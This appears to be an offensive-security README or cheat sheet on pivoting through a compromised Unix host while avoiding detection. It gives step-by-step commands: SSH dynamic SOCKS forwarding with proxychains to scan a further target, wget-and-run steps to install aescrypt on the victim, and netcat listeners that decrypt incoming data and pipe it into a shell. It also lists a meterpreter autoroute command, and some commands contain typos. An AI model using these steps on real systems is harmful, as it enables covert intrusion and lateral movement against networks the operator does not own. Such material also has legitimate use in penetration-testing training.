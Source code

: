 # pivoting

This focuses on pivoting undected (or at least, if you are detected, not much info can be derived from the traffic).

## tools

- [sshproxy](https://github.com/montysecurity/sshproxy)
- [cryptshell](https://github.com/montysecurity/cryptshell)

## ssh dynamic ports (scenario)

There are 3 boxes in the network, all \*nix machines. One is your attack box, the second is a box you have pwned and the third is a box you want to pwn, but you are at a delima. How do you route your traffic from the attack box, through the pwned box, to the target box?

You will need proxychains installed on the attack box and a working ssh account on the pwned box.

	On Pwned Box
		ssh -D 0.0.0.0:1337 user@localhost
	
	On Attack Box
		ssh -Nnt -D 0.0.0.0:1337 user@pwnedbox
		enter the password
		wait for the connection to establish, nothing prints to STDOUT or STDERR
		press CTRL+Z, this puts the connection in the background, you should be back at the attack box terminal
		verify the connection is still there: netstat -pan | grep 1337
		add the following line to the end of /etc/proxychains.conf: socks4 pwnedbox 1337
		prepend tool commmands with "proxychains ", in this case, proxychains nmap targetbox

### what this is actually doing...

Whenever you run the first ssh command, you are setting up a listener on pwnedbox:1337 using the "user" account, so if a ssh key is involved, remember to use -i. Pushing it to the background is so you can now have access to your tools on the attack box again. When you edit the proxychains file, you are telling the system, "any traffic ran with proxychains activated is to be forced through pwnedbox:1337 (travelling either way)". Then prepending proxychains to the commands is simply invoking the proxy

### diagrams are nice

- Attack Box --> [proxychains] --> [ssh bind on pwnedbox] --> targetbox
- Attack Box <-- [proxychains] <-- [ssh bind on pwnedbox] <-- targetbox

## aescrypt

You can encrypt commands with aescrypt pre-transit, it is easiest to do it with aescrypt and then decrypt them once they get to the traget and pipe to shell. Aescrypt commands can be swapped out with "base64" and "base64 -d" respectively if the target does not have aescrypt but this is encoding and not encryption - it is a quick and easy solution and should only be used to properly transmit the cipher text, not evading detection.

### if target does not have aescrypt

If the target does not have aescrypt, the following are shell commands to get it installed on \*nix machines

#### 32 bit

	wget https://www.aescrypt.com/download/v3/linux/AESCrypt-GUI-3.11-Linux-x86-Install.gz 
	gunzip AESCrypt-GUI-3.11-Linux-x86-Install.gz
	chmod +x AESCrypt-GUI-3.11-Linux-x86-Install 
	./AESCrypt-GUI-3.11-Linux-x86-Install
	rm AESCrypt-GUI-3.11-Linux-x86-Install

#### 64 bit
	
	wget https://www.aescrypt.com/download/v3/linux/AESCrypt-GUI-3.11-Linux-x86_64-Install.gz 
	gunzip AESCrypt-GUI-3.11-Linux-x86_64-Install.gz 
	chmod +x AESCrypt-GUI-3.11-Linux-x86_64-Install 
	./AESCrypt-GUI-3.11-Linux-x86_64-Install
	rm AESCrypt-GUI-3.11-Linux-x86_64-Install

### transfering shell commands via aescrypt

	On Target Box
		nc -lnvp targetPort > aescrypt.key
	On Attack Box
                aescrypt_keygen -g 64 aescrypt.key && nc targetBox targetPort < aescrypt.kkey
	On Target Box
		nc -lnvp targetPort | aescrypt -d -k aescrypt.key - | sh
	On Attack Box
		echo "bash commands" | aescrypt -e -k aescrypt.key - | nc targetBox tagetPort

## meterpreter

    run post/multi/manage/autoroute
